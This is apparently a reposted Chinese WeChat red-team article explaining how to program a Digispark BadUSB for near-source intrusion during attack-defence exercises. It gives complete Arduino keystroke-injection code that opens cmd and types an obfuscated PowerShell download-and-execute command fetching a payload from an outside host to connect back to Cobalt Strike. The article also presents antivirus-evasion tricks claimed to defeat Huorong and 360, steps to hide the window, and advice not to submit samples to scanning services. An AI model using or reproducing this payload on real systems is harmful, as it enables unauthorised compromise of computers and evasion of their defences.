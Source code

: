 #  实战|HVV中的免杀项目

[ 黄公子学安全 ](javascript:void\(0\);)

**黄公子学安全** ![]()

微信号 huang_Block

功能介绍 主要和大家分享安全笔记、如何从一个小白逆袭成为技术大牛的经验以及在学习安全过程中容易出现的错误。为各位网络安全爱好者提供优质学习平台。

____

___发表于_

收录于合集

以下文章来源于李白你好 ，作者李白团队-Jerry

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM64s9gX2k0hsiazj2NHKBakVpZzzOAgJWEM9BndyEscXZg/0)
**李白你好** .

"一个有趣的网络安全小平台" 主攻WEB安全 | 内网渗透 | 红蓝对抗 | SRC | 安全资讯等内容分享，关注了解更多实用的安全小知识～

# ****声明：****
文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。  
  
---  
  
 **0x01 前言**

攻防演练的时候有查U盘就能上线靶标电脑的操作（近源渗透），这种攻击手法虽然看着猥琐，但是是简单粗暴。今天团队的师傅写了一篇文章讲解这个攻击手法的原理，欢迎师傅们点赞分享。

 **0x02  准备阶段**

1、购买BadUsb，我购买的是Digispark。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224024.png)

2、安装Arduino IDE3、配置Arduino IDE ，添加开发板，安装驱动。

  * 

    
    
    参考链接：https://www.jianshu.com/p/b33d61fc2678

4、掌握Digispark编程语法。（语法较简单，可以边查边写）至此，BadUsb和开发环境均已配置完毕，可以开始编写代码。

 **0x03  编写代码**

编写代码前，我们首先要了解BadUsb的大致原理，本质上就是插入电脑后可以模拟键盘输入，既然是模拟键盘输入，我们可以先写出一个大致的代码框架。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "DigiKeyboard.h"#define MOD_SHIFT_LEFT      (1<<1)#define MOD_CONTROL_LEFT    (1<<0)#define KEY_ENTER   40#define KEY_CAPS_LOCK 0x39  
    void setup() {DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(0);DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+rDigiKeyboard.delay(500);DigiKeyboard.print(F("cmd")); //输入cmdDigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车DigiKeyboard.delay(500);//后面输入恶意代码}  
    void loop() {}

这段代码先声明了一些键盘按键代表的字符，然后通过键盘唤起CMD。其中插入BadUsb后间隔2秒开始执行程序，每次输入字符后都间隔0.5s。

代码框架编写完成后，就可以开始构造我们的免杀恶意代码了。

要想通过键盘输入上线的我们的C2服务器，有2种思路。通过powershell命令上线 或 通过命令行文件下载恶意文件上线。

1、文件下载上线

考虑到免杀问题，certutil这些常见的命令几乎被所有杀软拦截，网上公开的绕过方法（例如双写certutil）可以绕过火绒，但360无法绕过。

文件成功下载后，恶意文件的免杀也具有一定局限性，所以如果考虑免杀，那么通过文件下载这种模式来实现BadUsb上线存在很大难度。

  

2、powershell命令上线

powershell上线也分两种方式

(1)通过ps1文件上线

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224025.png)

ps1文件免杀效果好，Github有很多针对ps1文件的免杀项目，可以轻松绕过国内主流杀软。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224026.png)

但ps1文件庞大的代码量又带来了一个问题，在我们编写完成代码框架后，使用Arduino
IDE进行编译，提示“当前已使用了45%的存储空间”，而如果我们将ps1文件中的全部代码编译，则会存在闪存空间不足的问题。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224027.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224028.png)

有2种办法解决这个问题，使用钞能力购买闪存更大的开发板，或精简我们的ps1文件内容。至此通过ps1文件上线这个思路也在这里断了。

 (2)通过web服务上线

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224029.png)

通过这种方法生成的payload较为精简，不存在闪存不足的问题，只需要针对性的做一下免杀即可。

  

这里给出我免杀的方法，设置别名+^字符间隔+加号拼接字符串。

  * 

    
    
    cmd /c echo set-alias -name xz -value IEX;x^z (New-Object "NeT.WeBClienT").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/a') | p^o^w^e^r^s^h^e^l^l -

这里没有添加后台运行powershell的参数，因为hidden参数会影响免杀效果，这样的运行方式实测可以绕过火绒和360。

  

那么代码就算是初步完成了，如下。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "DigiKeyboard.h"#define MOD_SHIFT_LEFT      (1<<1)#define MOD_CONTROL_LEFT    (1<<0)#define KEY_ENTER   40#define KEY_CAPS_LOCK 0x39  
    void setup() {DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(0);DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+rDigiKeyboard.delay(500);  
    // powershell上线 免杀火绒360 窗口不隐藏  需要点鼠标杀软放行DigiKeyboard.print(F("cmd")); //输入cmdDigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车DigiKeyboard.delay(500);DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object "NeT.WeBClienT").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/a') | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL上线DigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车}  
    void loop() {}

 **0x04  代码优化**

将写好的代码编译并烧录进BadUsb后，其实效果并没有那么理想，有如下几个问题：

1、部分电脑存在默认中文输入法，在模拟键盘输入的过程中会存在中文输入，未达到预期输入的内容

  

解决方案：开始模拟键盘输入前锁定大小写，相应的我们的免杀代码也要做出对应的大小写修改。

  *   *   * 

    
    
    DigiKeyboard.sendKeyStroke(KEY_CAPS_LOCK); //锁定大小写，防止默认中文输入法  
    DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object \"NeT.WeBClienT\").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/A’) | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL上线 路径大小写都要有a A

2、powershell运行完毕后，桌面留下一个黑框非常显眼。

解决方案：模拟键盘输入wind+d返回桌面隐藏cmd黑框，上线cs后立即迁移进程即可。

  

最终优化后的代码如下

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "DigiKeyboard.h"#define MOD_SHIFT_LEFT      (1<<1)#define MOD_CONTROL_LEFT    (1<<0)#define KEY_ENTER   40#define KEY_CAPS_LOCK 0x39  
    void setup() {DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(0);DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+rDigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_CAPS_LOCK); //锁定大小写，防止默认中文输入法DigiKeyboard.delay(500);  
    // powershell上线 免杀火绒360 窗口不隐藏  需要点鼠标杀软放行DigiKeyboard.print(F("cmd")); //输入cmdDigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车DigiKeyboard.delay(500);DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object \"NeT.WeBClienT\").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://4'+'3.138.111.78'+'/A') | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL上线 路径大小写都要有a ADigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车DigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_D,MOD_GUI_LEFT); //win+d}  
    void loop() {}

至此，实现了免杀火绒360 BadUsb即插即上线CS。

 **0x05 结语链接获取**

这篇文章是在我能力范围之内想出的BadUsb免杀上线的思路，希望能给各位师傅提供思路，如果师傅有更为新颖高效的思路也欢迎交流。

  

同时免杀不易，请珍惜当前可用的免杀方式，不要放在微步、VT等平台检测免杀效果。

参考链接：  

  *   *   *   *   *   * 

    
    
    https://www.jianshu.com/p/b33d61fc2678https://lzy-wi.github.io/2018IAMHUAPIDAN！/06/12/badusb/https://www.cnblogs.com/binglicheng/p/11615535.htmlhttps://blog.csdn.net/qq_34341458/article/details/123368269https://blog.csdn.net/weixin_52444045/article/details/126432290  
    

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

